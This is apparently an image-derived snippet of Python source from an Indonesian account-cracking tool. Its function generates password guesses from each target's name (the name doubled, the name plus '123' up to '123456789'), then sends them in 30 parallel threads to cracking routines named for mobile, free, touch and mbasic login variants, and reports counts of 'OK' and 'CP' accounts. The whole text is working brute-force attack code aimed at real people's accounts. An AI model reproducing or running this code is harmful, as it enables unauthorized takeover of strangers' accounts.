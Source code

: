 
def passwrd():
    with tred(max_workers=30) as pool:
        for yuzong in id2:
            idf = yuzong.split('|')[0]
            nmf = yuzong.split('|')[1].lower()
            frs = nmf.split(' ')[0]
            pwv = []
            if len(nmf) < 6:
                if len(frs) < 3:
                    pass
                else:
                    pwv.append(nmf)
                    pwv.append(frs + frs)
                    pwv.append(frs + ' ' + frs)
                    pwv.append(frs+'1')
                    pwv.append(frs+'12')
                    pwv.append(frs+'123')
                    pwv.append(frs+'1234')
                    pwv.append(frs+'12345')
                    pwv.append(frs+'123456')
                    pwv.append(frs+'1234567')
                    pwv.append(frs+'12345678')
                    pwv.append(frs+'123456789')
            elif len(frs) < 3:
                pwv.append(nmf)
            else:
                pwv.append(nmf)
                pwv.append(frs + frs)
                pwv.append(frs + ' ' + frs)
                pwv.append(nmf)
                pwv.append(frs + frs)
                pwv.append(frs + ' ' + frs)
                pwv.append(frs+'1')
                pwv.append(frs+'12')
                pwv.append(frs+'123')
                pwv.append(frs+'1234')
                pwv.append(frs+'12345')
                pwv.append(frs+'123456')
                pwv.append(frs+'1234567')
                pwv.append(frs+'12345678')
                pwv.append(frs+'123456789')
            if 'ya' in pwpluss:
                for xpwd in pwnya:
                    pwv.append(xpwd)
            if 'mobile' in method:
                pool.submit(crack, idf, pwv)
            elif 'free' in method:
                pool.submit(crackfree, idf, pwv)
            elif 'touch' in method:
                pool.submit(cracktouch, idf, pwv)
            elif 'mbasic' in method:
                pool.submit(crackmbasic, idf, pwv)
            else:
                pool.submit(crackmbasic, idf, pwv)
    print('')
    cetak(nel('\t[cyan]✓[green] Crack Selesai Ngab, Jangan Lupa Bersyukur[cyan] ✓[white] '))
    print(f'''[{b}•{x}]{h} OK : {h}%s ''' % ok)
    print(f'''{x}[{b}•{x}]{k} CP : {k}%s{x} ''' % cp)
    print('')
    print('>> Lanjut Crack Kembali ( Y/t ) ? ')
    woi = input('>> Pilih : ')
    if woi in ('y', 'Y'):
        back()